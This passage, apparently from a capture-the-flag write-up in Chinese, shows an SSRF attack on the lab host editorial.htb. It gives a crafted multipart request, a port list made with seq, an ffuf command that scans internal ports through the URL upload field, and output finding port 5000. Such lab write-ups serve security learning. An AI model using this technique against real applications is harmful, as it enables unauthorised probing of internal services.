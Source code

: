 但左邊可以上傳網址 先試看看能不能連線 成功後再試 SSRF 
![image](https://hackmd.io/_uploads/S1nUc8WSyg.png)

訪問 127.0.0.1 都是空的 去掃看看他的 port
做法 ： 
把 burp 的請求存成 txt 然後把 port 部分改成 fuzz
```java
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 302
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAQbSI1QUcvaMriAX
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

------WebKitFormBoundaryAQbSI1QUcvaMriAX
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundaryAQbSI1QUcvaMriAX
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryAQbSI1QUcvaMriAX--
```
再來因為要掃 port 所以存一個 port 的 txt
```
seq 0 65535 > port.txt
```
最後就是搭配 ffuf 做掃描
```
ffuf -u "http://editorial.htb/upload-cover" -X POST -request script.txt -w port.txt -fs 61
```

在 5000 port 找到
```
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 61
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 283ms]
```
